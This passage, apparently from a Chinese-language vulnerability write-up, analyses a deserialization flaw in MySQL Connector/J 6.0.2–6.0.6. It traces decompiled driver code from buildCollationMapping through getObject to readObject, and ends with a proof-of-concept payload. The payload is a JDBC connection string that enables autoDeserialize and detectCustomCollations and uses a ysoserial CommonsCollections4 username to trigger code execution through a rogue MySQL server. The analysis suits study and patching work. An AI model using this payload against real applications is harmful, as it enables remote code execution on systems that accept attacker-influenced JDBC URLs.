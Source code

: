 ### [6.0.2-6.0.6](#toc_602-606)

com.mysql.cj.jdbc.ConnectionImpl#buildCollationMapping()方法（mysql-connector-java 6.0.2）

`private void buildCollationMapping() throws SQLException {
    ...
    if (indexToCharset == null) {
        indexToCharset = new HashMap();
        if ((Boolean)this.getPropertySet().getBooleanReadableProperty("detectCustomCollations").getValue()) {
            java.sql.Statement stmt = null;
            ResultSet results = null;

            try {
                sortedCollationMap = new TreeMap();
                customCharset = new HashMap();
                customMblen = new HashMap();
                stmt = this.getMetadataSafeStatement();

                try {
                    results = stmt.executeQuery("SHOW COLLATION");
                    //调用resultSetToMap()最后调用至getObject()
                    ResultSetUtil.resultSetToMap(sortedCollationMap, results, 3, 2);
                } catch (PasswordExpiredException var36) {
                    if ((Boolean)this.disconnectOnExpiredPasswords.getValue()) {
                        throw var36;
                    }
                } catch (SQLException var37) {
                    if (var37.getErrorCode() != 1820 || (Boolean)this.disconnectOnExpiredPasswords.getValue()) {
                        throw var37;
                    }
                }
                ...` 

调用com.mysql.cj.jdbc.util.ResultSetUtil.resultSetToMap()

`public static void resultSetToMap(Map mappedValues, ResultSet rs, int key, int value) throws SQLException {
    while(rs.next()) {
        mappedValues.put(rs.getObject(key), rs.getObject(value));
    }

}` 

调用getObject()，最后调用至readObject()

#### [payload](#toc_payload_3)

`String url = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_CommonsCollections4_calc";
String username = "yso_CommonsCollections4_calc";
String password = "";
Class.forName("com.mysql.jdbc.Driver");
conn = DriverManager.getConnection(url,username,password);` 
